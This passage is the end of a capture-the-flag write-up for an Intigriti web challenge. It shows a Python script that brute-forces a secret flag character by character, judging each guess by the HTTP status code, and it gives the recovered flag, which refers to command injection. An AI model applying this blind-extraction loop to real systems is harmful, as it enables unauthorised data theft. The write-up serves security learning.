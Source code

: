 ```

headers = {
    'Host': 'challenge-0723.intigriti.io',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'https://challenge-0723.intigriti.io',
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryVe8B2hOjY4mvCW76',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'
}

last_match = ""
flag = ""

while True:

	response = sendRequest(flag + "}")

	if response.status_code == 200:
			last_match = x
			flag += x
			break
    
	for x in string.printable:

		if x == "\"":
			continue

		if x == "*":
			continue

		if x == "$":
			continue

		if x == "\\":
			continue

		response = sendRequest(flag + x)

		if response.status_code == 200:
			last_match = x
			flag += x
			break
```

Each time the script detects a new character, it checks if the end of the flag has been reached by appending a `}` character. If the status code is 200 it stops the execution and the flag is found. 

All in all this is how I found the final flag: `INTIGRITI{c0mm4nd.1nj3c710n.4nd.0p3n55l.5h3ll}`. 

